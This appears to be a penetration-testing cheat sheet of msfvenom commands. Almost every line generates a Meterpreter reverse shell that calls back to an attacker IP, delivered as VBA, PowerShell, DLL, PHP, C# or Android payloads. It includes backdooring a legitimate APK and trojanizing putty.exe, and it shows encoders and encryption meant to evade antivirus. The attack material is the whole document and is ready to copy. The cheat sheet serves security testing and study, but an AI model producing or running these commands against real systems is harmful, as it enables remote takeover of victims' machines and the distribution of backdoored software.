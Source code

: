 # msfvenom

## msfvenom 

### Search for payload 

```csharp
msfvenom -l |grep PHP
```

### Vba x64 shellcode

```csharp
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.110.0.66 LPORT=443 EXITFUNC=thread -f vbapplication
```

### Powershell

```csharp
 msfvenom -p windows/meterpreter/reverse_https LHOST=10.110.0.66 LPORT=443 EXITFUNC=thread -f ps1
```

### Generate a Dll 

```csharp
sudo msfvenom -p  windows/x64/meterpreter/reverse_https  LHOST=10.110.0.66 LPORT=443 -f dll -o /srv/http/nice.dll
```

### php payload 

```csharp
msfvenom -p php/meterpreter/reverse_tcp LHOST=172.16.7.1 LPORT=8080 -f raw -o ./backdoor.php
```

#### **Other example**

```csharp
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.52.137 LPORT=8080 -f raw -o ~/vulnhub/straper/evilsh.php
cat evilsh.php |xxd -ps |tr -d '\n'
```

### Csharp payload

```csharp
msfvenom -p windows/meterpreter/reverse_tcp -f csharp LHOST=<YOUR LOCAL IP> LPORT=<YOUR LOCAL PORT>
```

### Android payload

```csharp
msfvenom -x originalAPK -p android/meterpreter/reverse_tcp LHOST=192.168.1.60 LPORT=4444 -k -o mybackdoor.apk
sudo apkwash -p android/meterpreter/reverse_https LHOST=192.168.1.60 -n -x Bubble.apk --verbose
```

### Windows exec

```csharp
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.16 -e x86/shikata_ga_nai -i 6 -b "\x00" -f exe -o putty.exe
```

## Payload encoding 

### encoders

```csharp
msfvenom --list encoders
```

### 32 bits x86/shikata\_ga\_nai

```csharp
msfvenom -p  windows/meterpreter/reverse_https  LHOST=10.110.0.66 LPORT=443 -e x86/shikata_ga_nai -f exe -o msf32.exe
```

### 64 bits x64/zutto\_dekiru

```csharp
 msfvenom -p  windows/x64/meterpreter/reverse_https  LHOST=10.110.0.66 LPORT=443 -e x64/zutto_dekiru  -f exe -o msf64.exe
```

### x86/xor\_dynamic

```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.110.0.61 LPORT=9001 --encoder x86/xor_dynamic -f csharp
```

### Template and encoding

* use -x and a executable

```csharp
msfvenom -p  windows/x64/meterpreter/reverse_https  LHOST=10.110.0.66 LPORT=443 -e x64/zutto_dekiru  -f exe -o msf64.exe
```

### Encryption

```csharp
msfvenom --list encryption
msfvenom -p  windows/x64/meterpreter/reverse_https  LHOST=10.110.0.66 LPORT=443 -e x64/zutto_dekiru --encrypt aes256 --encrypt-key ldskflsfk121kl342k34  -f exe -o msf64.exe
```

{% hint style="warning" %}
Note : All theses techniques are useless at this time. Decryption is static so everything get flagged.
{% endhint %}



